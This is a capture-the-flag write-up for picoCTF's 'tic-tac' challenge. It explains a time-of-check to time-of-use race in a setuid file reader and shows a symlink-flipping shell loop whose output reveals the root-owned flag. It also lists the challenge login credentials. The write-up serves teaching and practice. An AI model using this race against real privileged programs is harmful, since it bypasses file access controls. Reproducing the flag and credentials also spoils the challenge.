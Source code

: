# tic-tac
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it. (200 Points)
ssh to saturn.picoctf.net:49182, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d137d16e

## Solution
The home directory contains the following files:
```
ctf-player@pico-chall$ ls -al
total 56
drwxr-xr-x 1 ctf-player ctf-player    84 Mar 22 22:11 .
drwxr-xr-x 1 root       root          24 Mar 16 02:27 ..
drwx------ 2 ctf-player ctf-player    34 Mar 22 21:58 .cache
drwxrwxr-x 3 ctf-player ctf-player    19 Mar 22 22:01 .local
-rw-r--r-- 1 root       root          67 Mar 16 02:28 .profile
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
ctf-player@pico-chall$
```

The code of the program is given:
```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {         // <----- TIME OF CHECK
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {                     // <----- TIME OF USE
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

It compares the userid with the uid of the file, that we want to read out. If they dont match, the program wont read out the content. In our case that will be the 'flag.txt' file:
```
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
```

As we can see we dont have the permissions to read it. But there is a race condition between the check for the uid an reading out the file, that we can abuse, called TOCTOU (Time-of-check to time-of-use). The Time-of-check will be in the line `if (statbuf.st_uid != getuid()) {` and the time of use in `if (file.is_open()) {`. I added the comments in the code aswell. Our goal is it now to change the file we want to read out in between those two.

One approach is to create a symbolic link, pointing on a valid file that we can read out and changing it after the check to our 'flag.txt'. For being this quick we can contantly toggle the link with a while loop: `while true; do ln -sf flag.txt flip; ln -sf test flip; done &`

Than we just have to run the program and try to read the symlink. If we hit the right timing we get our flag. To increase our chances, we will it in a loop aswell: `for i in {1..30}; do ./txtreader flip; done`.

Took several tries, but in the end we won our race:
```
ctf-player@pico-chall$ touch test
ctf-player@pico-chall$ while true; do ln -sf flag.txt flip; ln -sf test flip; done &
[1] 46757
ctf-player@pico-chall$ for i in {1..30}; do ./txtreader flip; done
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
ctf-player@pico-chall$ for i in {1..30}; do ./txtreader flip; done
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
ctf-player@pico-chall$ for i in {1..30}; do ./txtreader flip; done
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_f482a247}
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
ctf-player@pico-chall$ kill 46757
```

## Further reading
https://samsclass.info/127/proj/E10.htm
